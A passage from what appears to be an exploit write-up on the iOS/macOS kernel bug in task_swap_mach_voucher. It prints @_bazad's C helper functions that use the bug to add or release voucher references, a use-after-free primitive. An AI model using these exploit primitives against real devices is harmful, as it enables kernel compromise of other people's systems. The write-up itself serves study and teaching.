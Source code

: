 
The reference is then released by the **voucher_release** function. Actually, @_bazad created two similar functions for releasing a reference (**voucher_release**) and leaking a reference (**voucher_reference**) which are both wrappers over **voucher_tweak_references** which is a wrapper over **task_swap_mach_voucher**. As you remember, the vulnerability was in calling the function **task_swap_mach_voucher()** which takes as input the current task, a new voucher (reference will be released) and and old voucher (reference will be leaked). Hence if you want to release a reference for a voucher, just pass it as an argument instead of the new voucher and the old voucher can be set as **MACH_PORT_NULL**.

{% highlight c %}
    /*
     * voucher_reference
     *
     * Description:
     * 	Add a reference to the voucher represented by the voucher port.
     */
    static void
    voucher_reference(mach_port_t voucher) {
    	voucher_tweak_references(MACH_PORT_NULL, voucher);
    }

    /*
     * voucher_release
     *
     * Description:
     * 	Release a reference on the voucher represented by the voucher port.
     */
    static void
    voucher_release(mach_port_t voucher) {
    	voucher_tweak_references(voucher, MACH_PORT_NULL);
    }

    /*
     * voucher_tweak_references
     *
     * Description:
     * 	Use the task_swap_mach_voucher() vulnerabilities to modify the reference counts of 2
     * 	vouchers.
     */
    static void
    voucher_tweak_references(mach_port_t release_voucher, mach_port_t reference_voucher) {
    	// Call task_swap_mach_voucher() to tweak the reference counts (two bugs in one!).
    	mach_port_t inout_voucher = reference_voucher;
    	kern_return_t kr = task_swap_mach_voucher(mach_task_self(), release_voucher, &inout_voucher);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "task_swap_mach_voucher", kr, mach_error_string(kr));
    	}
    	// At this point we've successfully tweaked the voucher reference counts, but our port
    	// reference counts might be messed up because of the voucher port returned in
    	// inout_voucher! We need to deallocate it (it's extra anyways, since
    	// task_swap_mach_voucher() doesn't swallow the existing send rights).
    	if (kr == KERN_SUCCESS && MACH_PORT_VALID(inout_voucher)) {
    		kr = mach_port_deallocate(mach_task_self(), inout_voucher);
    		assert(kr == KERN_SUCCESS);
    	}
    }
{% endhighlight %}
